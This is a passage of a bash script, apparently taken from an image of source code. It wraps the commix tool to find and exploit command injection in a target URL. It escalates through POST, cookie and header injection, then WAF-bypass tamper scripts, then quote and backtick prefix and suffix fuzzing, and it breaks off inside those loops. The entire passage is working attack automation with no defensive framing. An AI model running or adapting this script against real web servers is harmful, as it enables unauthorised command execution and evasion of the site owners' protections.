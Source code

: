 ```bash
echo "Results will be saved to $OUTPUT_DIR"

# Function to log and execute commix commands
run_commix() {
  local description=$1
  local command=$2
  local output_file="$OUTPUT_DIR/$(echo "$description" | sed 's/ /_/g').txt"
  
  echo "[$description]"
  echo "Command: $command"
  echo "Output file: $output_file"
  
  # Execute the command and capture output
  $command | tee "$output_file"
  
  echo "-------------------------------------------"
}

# Phase 1: Initial Detection with all techniques
echo "[+] Starting initial command injection detection"
run_commix "Initial Detection" "python3 /usr/bin/commix -u \"$TARGET_URL\" --batch --random-agent --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"

# Check if vulnerable
if grep -q "Payload: " "$OUTPUT_DIR/Initial_Detection.txt"; then
  echo "[+] Target is vulnerable to command injection! Proceeding with exploitation."
else
  echo "[-] No straightforward command injection vulnerability detected. Trying advanced options."
  
  # Try with different HTTP methods
  run_commix "POST Method Test" "python3 /usr/bin/commix -u \"$TARGET_URL\" --data=\"$(echo $TARGET_URL | cut -d '?' -f2)\" --batch --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"
  
  # Try cookie-based injection
  run_commix "Cookie Injection Test" "python3 /usr/bin/commix -u \"$TARGET_URL\" --cookie=\"cmd=$(echo $TARGET_URL | grep -o 'cmd=.*' | cut -d '=' -f2)\" --batch --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"
  
  # Try header-based injection
  run_commix "Header Injection Test" "python3 /usr/bin/commix -u \"$TARGET_URL\" --headers=\"User-Agent:$(echo $TARGET_URL | grep -o 'cmd=.*' | cut -d '=' -f2)\" --batch --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"
  
  # Check if any of these tests were successful
  if ! grep -q "Payload: " "$OUTPUT_DIR"/*.txt; then
    echo "[-] Target does not appear to be vulnerable to command injection using basic techniques."
    echo "[*] Trying with WAF bypass techniques..."
    
    # Try with WAF bypass
    for tamper in "space2ifs" "space2tab" "base64encode" "hexencode"; do
      run_commix "WAF Bypass ($tamper)" "python3 /usr/bin/commix -u \"$TARGET_URL\" --tamper=$tamper --batch --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"
      
      if grep -q "Payload: " "$OUTPUT_DIR/WAF_Bypass_${tamper}.txt"; then
        echo "[+] Found vulnerability using $tamper tamper script!"
        break
      fi
    done
    
    # If still not vulnerable, try with custom prefixes and suffixes
    if ! grep -q "Payload: " "$OUTPUT_DIR"/*.txt; then
      for prefix in "'" "\"" "`" "$("; do
        for suffix in "'" "\"" "`" ")"; do
```
